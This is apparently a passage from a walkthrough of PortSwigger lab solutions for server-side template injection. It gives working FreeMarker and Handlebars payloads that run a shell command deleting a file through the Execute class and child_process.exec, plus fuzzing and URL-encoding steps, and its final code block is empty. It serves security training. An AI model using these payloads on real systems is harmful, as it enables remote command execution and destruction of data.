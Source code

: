 5. Observe that there is a class called ``Execute``, which can be used to execute arbitrary shell commands
6. Either attempt to construct your own exploit, or find @albinowax's exploit on our research page and adapt it as follows:
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```
7. Remove the invalid syntax that you entered earlier, and insert your new payload into the template.
8. Save the template and view the product page to solve the lab.

## Server-side template injection in an unknown language with a documented exploit
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit


### Solution
1. Notice that when you try to view more details about the first product, a ``GET`` request uses the ``message`` parameter to render "``Unfortunately this product is out of stock``" on the home page.
2. Experiment by injecting a fuzz string containing template syntax from various different template languages, such as ``${{<%[%'"}}%\``, into the ``message`` parameter. Notice that when you submit invalid syntax, an error message is shown in the output. This identifies that the website is using Handlebars.
3. Search the web for "Handlebars server-side template injection". You should find a well-known exploit posted by ``@Zombiehelp54``.
4. Modify this exploit so that it calls ``require("child_process").exec("rm /home/carlos/morale.txt")`` as follows:
```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
5. URL encode your exploit and add it as the value of the message parameter in the URL. The final exploit should look like this, but remember to replace ``your-lab-id`` with your own lab ID:
```
```